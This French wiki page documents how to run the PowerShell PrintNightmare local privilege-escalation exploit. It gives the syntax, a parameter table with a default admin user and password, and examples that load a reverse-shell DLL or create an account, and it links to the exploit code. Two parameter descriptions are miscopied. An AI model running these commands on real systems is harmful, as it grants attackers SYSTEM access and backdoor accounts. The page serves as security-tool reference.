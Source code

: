 ```yaml
---
title: PrintNightmare
description: Version PowerShell de l'exploit en local uniquement. Qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-10-25T20:44:48.176Z
tags: outil, windows, powershell
editor: markdown
dateCreated: 2024-08-23T14:32:14.312Z
---
```


# Introduction

Version PowerShell de l'exploit PrintNightmare en local uniquement. Utilisant une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> La version PowerShell de PrintNightmare est disponible au téléchargement [ici](https://github.com/calebstewart/CVE-2021-1675)
> {.is-info}

> Le canal nommé \pipe\spoolss est utilisé pour la communication.
> {.is-info}

# Syntaxe

`Import-Module .\cve-2021-1675.ps1`
`Invoke-Nightmare [paramètres]`

# Paramètres

| Paramètre                                      | Description                                                           |
| ---------------------------------------------- | --------------------------------------------------------------------- |
| `-DriverName <nom du driver à ajouter>`        | Spécifie le nom du driver (par défaut:"Totally Not Malicious").       |
| `-NewUser <nom de l'utilisateur>`              | Spécifie le nom du driver (par défaut:"adm1n").                       |
| `-NewPassword <mot de passe de l'utilisateur>` | Spécifie le nom du driver (par défaut:"P@ssw0rd").                    |
| `-DLL <chemin absolu du DLL>`                  | Spécifie le DLL à ajouter (non compatible avec les autres paramètres) |

# Exemples

Lancement avec un DLL personnalisé.
`Invoke-Nightmare -DLL "C:\temp\rshell.dll"`

Lancement avec mot de passe par "t00r_secure".
`Invoke-Nightmare -NewPassword "t00r_secure""`

# Voir aussi

le DLL par défaut utilisé pour ajouter un utilisateur:
https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22

Emplacement et informations concernant le canal nommé \pipe\spoolss:
https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-rprn/fdf1138a-f6b9-4b00-ada6-1fbb6097d683
